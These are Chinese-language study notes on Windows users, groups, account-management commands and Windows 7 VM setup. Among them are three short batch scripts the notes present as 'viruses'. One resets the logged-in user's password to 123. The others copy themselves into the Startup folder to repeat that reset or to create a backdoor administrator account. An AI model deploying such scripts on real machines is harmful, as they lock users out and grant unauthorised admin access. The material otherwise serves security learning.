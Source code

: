 # 学习用户与组、win7虚拟机下载配置
## 用户与组
windows 用户
- 给人使用的账户：
1. administrator	管理员账户仅次于 system 的权限
2. guest		来宾（游客） 最新权限
普通用户	在操作系统中新创建的用户

- 计算机服务组件相关账户（机器人）：
1. system	系统账户	至高权限
2. local services	本地服务账户;权限等同普通用户
3. network services  网络服务账户;权限等同普通用户

用户管理界面：

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8768.png)

创建新用户

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8769.png)

**默认**情况下，windows 系统中，**账户的密码最长有效期为 42 天**
【家文件夹】只有在对应账户首次登录之后才会生成。

1. 预定义变量 `%userprofile%`   
`%userprofile%  =  "C:\documents and settings"`   
相当于  `copy 1.bat "C:\documents and settings\「开始」菜单\程序\启动"` 
= `copy 1.bat "%userprofile%\「开始」菜单\程序\启动"`

> 可通过`echo`去查看`%userprofile%`，`echo %userprofile%`，会显示在`C:\documents and settings`

表示 当前操作系统用户的 配置文件夹（家目录）,通过该变量可以保证将文件写入不同用户的启动\桌面等个人文件夹中
  `copy 1.bat "%userprofile%\「开始」菜单\程序\启动"`
  `echo 123456 >> "%userprofile%\桌面\666666.txt"`

`%username%` 表示当前操作系统用户的账户名称

2. 账户命令
- `net user`  查看当前系统的用户列表
- `net user /add`  通过命令添加新用户
- `net user yanxinyuan 123.com /add`    新建一个账户名为yanxinyuan，密码为123.com
- `net user /del`  删除一个已有用户
- `net user shenyoujia /del`   将账户shenyoujia删除
- `net user  wangdandan 123`   将账户wangdandan的密码改为123

3.  `net user` 用户名   查看当前账户的详细信息
- `net user administrator`  查看administrator账户的详细信息

4. `whoami` 查看当前账户的计算机名和用户名
- 执行`whoami`之后，可以看下图效果
- 可以通过右键我的电脑→属性→计算机名→完整的计算机名查看

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8770.png)

- `Whoami /user`  显示计算机名、用户名以及SID，这个命令的作用在于，**做渗透测试时，可以用本命令看一下自己的账号级别能干什么，甚至有可能做测试的时候会拿到system权限账号（最高权限，比管理员权限高）**。SID中，最后一段表示账户的序号。新建的用户需要默认从1000开始，依次累加，administrator账户的序号是500。

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8771.png)

### 【创建用户小程序】
```
@echo off
echo===============================================
echo                  系统用户创建工具
echo===============================================
set /p u=请输入用户名
set /p p=请输入登录密码
net user %u% %p% /add
echo 恭喜您账户创建成功
echo 您的用户名为：%u%
echo 您的密码为：%p%
echo 注销当前账户后，在操作系统登录界面可使用新账户
pause
```

### 【修改密码病毒】
把当前账户的密码改为123
```
@echo off
net user %username% 123  
```
管理员账户一般都支持远程登陆，如果这个漏洞修改的是管理员的密码就非常的危险

5. 组是用来盛放用户的容器，用户处于不同的组当中就会拥有不同的权限
- administrators        管理员组
- guests                来宾组
- users                 普通用户组 （在家文件夹可以读写，其余地方没有添加删除权限）
- network               网络配置组 
- print                  打印机组 
- Rmote desktop       远程桌面组
                  
A、在组中添加用户

在组管理中右击某个具体的组名称

![iamge](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8772.png)

之后点击，添加，在界面中填写某个用户名，而且将该用户置于当前组中

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8773.png)

B、将用户从组中移除

 在组管理中找到一个组，右击组名称，选择“属性”，之后在列表中选中一个用户名，最后点击“删除”

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8774.png)

> 一个用户可以在多个组内，所以每个组都可以赋予用户不同的权力，也就是这个组可以给你xx权力，而不是禁止用户做什么。

6. 组管理命令
- `net localgroup`   查看组列表
- `net localgroup` 组名    查看组中的成员
- `net localgroup users`  查看users组中存在哪些账户
- `net localgroup` 组名 用户名 /add
- `net localgroup administrators cuizhiqiang /add` 把账户cuizhiqiang提升为超级管理员
- `net localgroup` 组名 用户名 /del
- `net localgroup administrators cuizhiqiang /del` 把账户cuizhiqiang从管理员组移除 

### 【密码修改病毒-顽固版】
```
@echo off
copy 1.bat "%userprofile%\「开始」菜单\程序\启动"
net user %username% 123
```

> 每次受害者找回密码后，只能使用一次新密码，当第二次登录时又会被篡改

### 【获取新管理员账号病毒】
```
@echo off
copy 1.bat "%userprofile%\「开始」菜单\程序\启动"
net user wangdandan1058 123 /add
net localgroup administrators wangdandan1058 /add
 ```
 
## window7 虚拟机安装

安装时选择“自定义”（安装新的windows系统）

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8775.png)

在划分磁盘时，选中计算机的硬盘，之后点击“驱动器选项”

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8776.png)

接着点击“新建”

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8777.png)

当一个分区划分完毕后，选中“未分配空间”之后点击“新建”，来划分其它的分区

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8778.png)

安装时需要填写用户名

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8779.png)

设置完用户名之后，填写登录密码

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8780.png)

输入密钥的界面，取系勾选“自动激活”，之后点击“跳过”

![iamge](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8780.png)

![iamge](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8782.png)

网络类型选择

![iamge](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8783.png)
